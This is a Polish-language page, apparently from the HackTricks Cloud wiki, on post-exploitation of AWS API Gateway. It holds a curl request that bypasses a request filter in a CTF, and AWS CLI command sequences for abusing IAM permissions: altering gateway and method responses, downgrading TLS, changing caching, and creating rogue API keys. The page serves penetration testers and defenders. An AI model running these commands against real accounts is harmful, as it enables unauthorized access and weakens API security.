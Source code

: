 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## API Gateway

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Dostęp do nieujawnionych API

Możesz utworzyć punkt końcowy w [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) z usługą `com.amazonaws.us-east-1.execute-api`, ujawnić punkt końcowy w sieci, do której masz dostęp (potencjalnie za pośrednictwem maszyny EC2) i przypisać grupę zabezpieczeń zezwalającą na wszystkie połączenia.\
Następnie, z maszyny EC2 będziesz mógł uzyskać dostęp do punktu końcowego, a tym samym wywołać API bramy, które wcześniej nie było ujawnione.

### Ominięcie przekazywania ciała żądania

Ta technika została znaleziona w [**tym opisie CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

Jak wskazano w [**dokumentacji AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) w sekcji `PassthroughBehavior`, domyślnie wartość **`WHEN_NO_MATCH`**, podczas sprawdzania nagłówka **Content-Type** żądania, przekaże żądanie do zaplecza bez transformacji.

W związku z tym, w CTF brama API miała szablon integracji, który **zapobiegał wyciekowi flagi** w odpowiedzi, gdy wysłano żądanie z `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Jednak wysłanie żądania z **`Content-type: text/json`** uniemożliwiłoby ten filtr.

Na koniec, ponieważ API Gateway pozwalał tylko na `Get` i `Options`, możliwe było wysłanie dowolnego zapytania do dynamoDB bez żadnych ograniczeń, wysyłając żądanie POST z zapytaniem w ciele i używając nagłówka `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Plany użycia DoS

W sekcji **Enumeracja** możesz zobaczyć, jak **uzyskać plan użycia** kluczy. Jeśli masz klucz i jest on **ograniczony** do X użyć **na miesiąc**, możesz **po prostu go użyć i spowodować DoS**.

**Klucz API** musi być **dołączony** w **nagłówku HTTP** o nazwie **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Napastnik z uprawnieniami `apigateway:UpdateGatewayResponse` i `apigateway:CreateDeployment` może **zmodyfikować istniejącą odpowiedź bramy, aby dodać niestandardowe nagłówki lub szablony odpowiedzi, które ujawniają wrażliwe informacje lub wykonują złośliwe skrypty**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Wycieki wrażliwych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów API.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Atakujący z uprawnieniami `apigateway:UpdateStage` i `apigateway:CreateDeployment` może **zmodyfikować istniejący etap API Gateway, aby przekierować ruch do innego etapu lub zmienić ustawienia pamięci podręcznej, aby uzyskać nieautoryzowany dostęp do danych w pamięci podręcznej**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Nieautoryzowany dostęp do pamiętanych danych, zakłócanie lub przechwytywanie ruchu API.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Napastnik z uprawnieniami `apigateway:PutMethodResponse` i `apigateway:CreateDeployment` może **zmodyfikować odpowiedź metody istniejącej metody API Gateway REST API, aby dodać niestandardowe nagłówki lub szablony odpowiedzi, które ujawniają wrażliwe informacje lub wykonują złośliwe skrypty**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Wyciek wrażliwych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów API.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Napastnik z uprawnieniami `apigateway:UpdateRestApi` i `apigateway:CreateDeployment` może **zmodyfikować ustawienia API Gateway REST API, aby wyłączyć logowanie lub zmienić minimalną wersję TLS, co potencjalnie osłabia bezpieczeństwo API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Osłabienie bezpieczeństwa API, co może prowadzić do nieautoryzowanego dostępu lub ujawnienia wrażliwych informacji.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Atakujący z uprawnieniami `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` i `apigateway:CreateUsagePlanKey` może **tworzyć nowe klucze API, przypisywać je do planów użytkowania, a następnie używać tych kluczy do nieautoryzowanego dostępu do API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potencjalny wpływ**: Nieautoryzowany dostęp do zasobów API, omijanie zabezpieczeń.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

